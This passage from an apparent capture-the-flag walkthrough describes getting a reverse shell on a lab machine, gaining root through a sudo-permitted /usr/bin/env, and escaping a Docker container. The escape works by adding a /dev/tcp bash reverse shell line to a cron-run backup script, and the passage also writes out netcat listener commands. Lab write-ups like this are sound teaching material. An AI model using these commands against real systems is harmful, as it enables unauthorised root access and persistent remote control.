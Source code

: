 Now send the request, and go to the browser and request the access.log file as we did before using the view parameter. You should see the reverse shell file gets downloaded.

![](12.png)

Now set up a netcat listener with `nc -lvnp 1234` and go to request the reverse shell file: http://10.10.10.10/shell.php

![](13.png)

Great! We got a reverse shell.

## Privilege Escalation

### Escalate to root

Let's check our current privileges with `sudo -l`.

![](14.png)

We can run `/usr/bin/env` as root and without a password, let's go to [GTFOBins](https://gtfobins.github.io/gtfobins/env/#sudo) to see if we can get root with that.

![](15.png)

Indeed we can, let's run that command : `sudo /usr/bin/env /bin/bash`.

![](16.png)

Great! We got root, but we are not done yet. If we list all the content of the root directory of the file system we find that we are in a docker container.

![](17.png)

### Docker escape

If we go to /opt directory, we find some interesting file.

![](18.png)

The backup.tar file has been modified very recently, and the backup.sh file is the one responsible for that, so there must be a cronjob running.

Let's modify the content of the backup.sh file by adding a script that would send us a reverse shell. `/bin/bash -i >& /dev/tcp/10.10.10.10/9001 0>&1`

![](19.png)

Now set up another netcat listener and wait for that shell.

![](20.png)

Great! We escaped the docker container and we are root on that system.

---